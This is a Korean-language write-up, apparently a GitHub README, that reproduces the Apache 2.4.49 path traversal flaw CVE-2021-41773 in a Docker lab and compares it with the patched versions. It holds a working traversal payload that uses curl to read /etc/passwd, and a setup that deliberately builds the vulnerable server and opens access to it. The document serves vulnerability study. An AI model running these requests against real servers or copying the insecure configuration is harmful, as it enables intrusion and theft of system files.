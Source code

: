 # CVE-2021-41773 Apache Path Traversal PoC

## 개요

이 보고서는 Apache HTTP Server 2.4.49 버전에서 발생한 경로 탐색(Path Traversal) 및 원격 코드 실행(RCE) 취약점(CVE-2021-41773)에 대한 PoC를 Docker 환경으로 재현하고, 분석 결과를 정리한 문서입니다. 해당 취약점은 URL 인코딩을 우회하여 시스템 파일에 접근할 수 있습니다.

---

## 취약점 설명

- Apache 2.4.49에서는 요청 경로 내의 `../` 경로 탐색 문자열에 대한 필터링이 불완전하여, URL 인코딩(`%2e%2e/`) 등을 이용한 우회가 가능했습니다.
- 이로 인해 공격자는 웹 루트 밖의 시스템 파일(`/etc/passwd` 등)에 접근하거나, CGI 기능이 활성화된 경우 임의의 명령 실행이 가능합니다.

---

## 취약 환경 구성 파일

### 📄 Dockerfile

```dockerfile
FROM ubuntu:20.04

RUN apt-get update --allow-releaseinfo-change && \
    DEBIAN_FRONTEND=noninteractive apt-get install -y \
    wget curl make gcc g++ perl libpcre3 libpcre3-dev \
    libapr1 libapr1-dev libexpat1-dev && \
    apt-get clean

RUN wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz && \
    tar xvfz apr-1.7.0.tar.gz && cd apr-1.7.0 && \
    ./configure --prefix=/usr/local/apr && make && make install

RUN wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz && \
    tar xvfz apr-util-1.6.1.tar.gz && cd apr-util-1.6.1 && \
    ./configure --with-apr=/usr/local/apr --prefix=/usr/local/apr-util && \
    make && make install

RUN wget https://sourceforge.net/projects/pcre/files/pcre/8.45/pcre-8.45.tar.gz && \
    tar xvfz pcre-8.45.tar.gz && cd pcre-8.45 && \
    ./configure --prefix=/usr/local/pcre && make && make install

RUN wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz && \
    tar -xf httpd-2.4.49.tar.gz && cd httpd-2.4.49 && \
    ./configure --prefix=/usr/local/apache2.4.49 \
    --enable-module=so --enable-rewrite --enable-so \
    --with-apr=/usr/local/apr/ \
    --with-apr-util=/usr/local/apr-util \
    --with-pcre=/usr/local/pcre \
    --enable-mods-shared=all && \
    make && make install

COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

EXPOSE 8080
CMD ["/entrypoint.sh"]
```

### 📄 entrypoint.sh

```bash
#!/bin/bash

sed -i 's/Listen 80/Listen 8080/' /usr/local/apache2.4.49/conf/httpd.conf
sed -i 's/Require all denied/Require all granted/' /usr/local/apache2.4.49/conf/httpd.conf
sed -i '/mod_cgi.so/s/^#//g' /usr/local/apache2.4.49/conf/httpd.conf

cat <<EOF >> /usr/local/apache2.4.49/conf/httpd.conf

<Directory "/usr/local/apache2.4.49/cgi-bin">
    Options +ExecCGI
    AddHandler cgi-script .sh
    Require all granted
</Directory>
EOF

/usr/local/apache2.4.49/bin/httpd -k start -DFOREGROUND
```

### 📄 docker-compose.yml

```yaml
version: '3'
services:
  apache-vuln:
    build: .
    ports:
      - "8080:8080"
```

---

## PoC 수행

### 1️⃣ 도커 빌드 및 실행

```bash
docker compose up -d
```

### 2️⃣ Apache 버전 확인

```bash
curl -I http://localhost:8080
```
![alt text](image-1.png)
### 3️⃣ Path Traversal 테스트

```bash
curl http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```
![alt text](image-2.png)
---

## 패치 분석 및 버전 비교

| 버전 | 우회 가능 여부 | 설명 |
|------|----------------|------|
| 2.4.49 | ✅ 가능 | `%2e%2e/` 인코딩 필터링 미흡 |
| 2.4.50 | ✅ 가능 | 이중 인코딩(`%%32%65`)으로 우회 가능 |
| 2.4.51 | ❌ 차단 | 이중 인코딩, 슬래시 필터링까지 완전 차단 |

> Apache는 `ap_normalize_path`, `ap_unescape_url` 함수에 필터링을 추가하여 우회 가능성을 원천 차단

---
